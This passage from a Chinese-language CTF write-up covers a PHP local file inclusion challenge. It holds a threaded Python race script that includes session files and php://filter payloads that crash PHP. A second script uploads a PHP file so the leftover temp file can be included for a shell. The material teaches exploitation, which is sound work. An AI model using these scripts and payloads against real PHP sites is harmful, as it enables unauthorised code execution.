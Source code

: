 ```python
            f'{target}?file=/tmp/sess_{flag}',
        )
        print('write',response.text)
        if 'phpinfo' in response.text:
            print('success')

for i in range(2):
    t1 = threading.Thread(target=upload)
    t2 = threading.Thread(target=write)
    t1.start()
    t2.start()
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211926665.png)

system 等函数被禁用了, flag 在 phpinfo 里

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211926293.png)

看 wp 的时候发现自己非预期了... 预期解是利用 php://filter 的过滤器让 php 进程崩溃, 然后在 dir.php 下能够看到 /tmp 目录下的临时文件名称, 最后通过包含临时文件来 getshell

参考文章

[https://www.cnblogs.com/tr1ple/p/11301743.html](https://www.cnblogs.com/tr1ple/p/11301743.html)

[https://www.cnblogs.com/linuxsec/articles/11278477.html](https://www.cnblogs.com/linuxsec/articles/11278477.html)

> php < 7.2: php://filter/string.strip_tags/resource=/etc/passwd
>
> php7 老版本通杀: php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA

脚本如下

```python
import threading
import requests

files = [
    ('file', ('xx.txt', '<?php phpinfo();?>')),
]

res = requests.post('http://e5352e08-ad57-4efe-a721-01303b3e75db.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd',files=files)

print(res.text)
```

访问 dir.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210211943513.png)

最后包含该临时文件
